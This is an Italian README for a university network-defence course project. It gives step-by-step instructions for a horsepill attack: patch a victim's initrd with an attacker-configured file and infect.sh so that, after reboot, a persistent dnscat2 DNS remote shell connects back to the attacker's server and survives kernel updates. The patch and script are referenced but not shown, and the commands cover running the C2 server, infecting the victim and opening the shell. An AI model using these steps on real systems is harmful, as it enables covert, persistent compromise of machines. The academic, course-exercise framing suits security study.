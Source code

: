 # Network and System Defence project
## Alessandro Chillotti (mat. 0299824)

## Traccia del progetto (traduzione)
È richiesto produrre un payload (utilizzando qualunque vettore) che è in grado di installare una DNS shell (e.g. guardare [qui](https://github.com/sensepost/DNS-Shell)) utilizzando un horsepill attack. Il payload deve essere in grado di sopravvivere agli update del kernel.

## Come effettuare l'attacco
### Configurazione del server dnscat2
È necessario mettere up and running un server `dnscat2` e per fare questo è necessario eseguire i seguenti comandi:

1. Effettuare la clone del [repository](https://github.com/iagox86/dnscat2.git) di dnscat2 e seguire le indicazioni per la configurazione dell'ambiente.
2. Spostarsi all'interno dentro la directory `server`.
3. Eseguire il seguente comando
```[bash]
bundle exec ruby dnscat2.rb --dns 'host=xxx.xxx.xxx.xxx,port=53531'
```
### Preparazione dell'attacco
Sulla macchina di lavoro è necessario configurare correttamente il [file](horsepill-attack.patch) di patch, ovvero bisogna aggiornare:

- L'indirizzo IP della macchina sulla quale connetersi
- La secret che verrà fornita nel momento in cui il server `dnscat2` sarà up and running

Una volta che la patch è configurata correttamente, dovrà essere inviata alla macchina vittima insieme al file [infect.sh](infect.sh).
### Esecuzione sulla macchina vittima
Una volta che la macchina vittima è in possesso dei file [horsepill-attack.patch](horsepill-attack.patch) e [infect.sh](infect.sh) bisogna eseguire il seguente comando:
```[bash]
./infect.sh ABSOLUTE_PATH_INITRD ABSOLUTE_PATH_PATCH
```
### Shell sulla macchina host
Al termine dell'esecuzione dello script [infect.sh](infect.sh) verrà effettuato il reboot della macchina vittima e, una volta completato, si noterà nel processo server di `dnscat2` una nuova connessione.

Una volta ricevuta la connessione è necessario digitare il comando `window -i 1` e poi il comando `shell`. A questo punto si ottiene una shell sh facilmente utilizzabile.